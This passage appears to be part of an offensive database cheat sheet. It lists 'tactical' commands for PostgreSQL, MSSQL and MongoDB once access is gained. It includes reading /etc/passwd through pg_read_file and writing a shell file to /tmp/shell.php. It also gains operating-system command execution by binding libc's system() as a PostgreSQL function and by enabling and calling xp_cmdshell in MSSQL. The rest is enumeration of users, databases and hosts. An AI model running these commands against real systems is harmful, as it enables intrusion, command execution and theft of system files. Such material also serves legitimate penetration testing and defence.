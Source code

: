 ### PostgreSQL Tactical Approach
```sql
-- System information
SELECT version();
SELECT current_user;
SELECT current_database();
\l (list databases)
\dt (list tables)

-- File access
SELECT pg_read_file('/etc/passwd');
COPY (SELECT 'shell code') TO '/tmp/shell.php';

-- Command execution (if superuser)
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('id');
```

### MSSQL Tactical Approach
```sql
-- Information gathering
SELECT @@version;
SELECT SYSTEM_USER;
SELECT DB_NAME();
SELECT name FROM sys.databases;
SELECT name FROM sys.tables;

-- Command execution
EXEC xp_cmdshell 'whoami';
sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### MongoDB Tactical Approach
```javascript
// Database enumeration
show dbs
use database_name
show collections
db.collection.find()

// User enumeration
db.getUsers()
db.runCommand({usersInfo: 1})

// System information
db.serverStatus()
db.hostInfo()
```
